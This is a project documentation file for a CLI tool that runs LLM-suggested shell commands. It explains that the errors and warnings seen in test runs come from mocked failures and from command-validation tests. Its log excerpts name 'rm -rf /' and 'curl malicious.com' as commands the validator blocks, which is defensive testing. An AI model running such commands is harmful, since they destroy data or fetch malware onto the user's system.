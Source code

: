 # About Test Warnings and "Ollama errors"

## The "Ollama error: Test error" Messages

When running the tests, you might notice messages like this:

```
[Nest] 19264  - 04/06/2025, 5:51:44 AM   ERROR [LlmService] Ollama error: Test error
[Nest] 19264  - 04/06/2025, 5:51:44 AM   ERROR [LlmService] Error querying LLM:
[Nest] 19264  - 04/06/2025, 5:51:44 AM   ERROR [LlmService] Error: Ollama error: Test error
```

**These are not actual errors.** They are intentionally generated as part of the test suite's error handling tests.

### What's happening:

1. In `test/unit/modules/llm/llm.service.spec.ts`, we have a test case called "should handle errors gracefully" that deliberately mocks the Ollama service to throw an error.
2. The test is verifying that our code properly handles LLM errors by:
   - Logging the error appropriately
   - Propagating the error so the calling code can handle it

### Why this is important:

These tests ensure our application is resilient. In production, if Ollama returns an error (e.g., if the service is down or there's a network issue), our application will handle it gracefully rather than crashing.

## The "Command not allowed" Warnings

Similarly, you might see warnings like:

```
[Stoked] 19264  - 04/06/2025, 5:51:44 AM    WARN Command not allowed: rm -rf /
[Stoked] 19264  - 04/06/2025, 5:51:44 AM    WARN Command not allowed: curl malicious.com
```

### What's happening:

1. In the `LlmService` tests, we have test cases that verify our command validation logic works correctly.
2. The test is checking that potentially dangerous commands like `rm -rf /` (which could delete all files on a system) or `curl malicious.com` (which could download malware) are properly blocked by our validation logic.

### Why this is important:

Since our CLI can execute shell commands, it's critical that we have robust validation to prevent malicious or destructive commands from being executed, especially when these commands might be suggested by an LLM.

## Do The Tests Actually Connect to Ollama?

**No, they do not.** All external dependencies are mocked in the tests.

In `test/unit/modules/llm/llm.service.spec.ts`, you can see how we mock the Ollama library:

```javascript
// Mock external dependencies first
vi.mock('ollama', () => {
  return {
    Ollama: vi.fn(() => ({
      generate: mockOllamaGenerate,
    })),
  };
});
```

The `mockOllamaGenerate` function is just a mock that returns predefined responses or errors depending on the test case. No actual network requests are made to Ollama during tests.

## Summary

The "errors" and "warnings" you see during test runs are actually positive indications that our error handling and security validation are working correctly. These messages show that:

1. The code logs errors appropriately when external services fail
2. The command validation logic correctly blocks potentially dangerous commands
3. Tests are properly covering both happy paths and error cases

If you want to reduce the verbosity of these messages in the test output, we could modify the tests to temporarily silence logs during test execution, but keeping them visible can be helpful when debugging test failures. 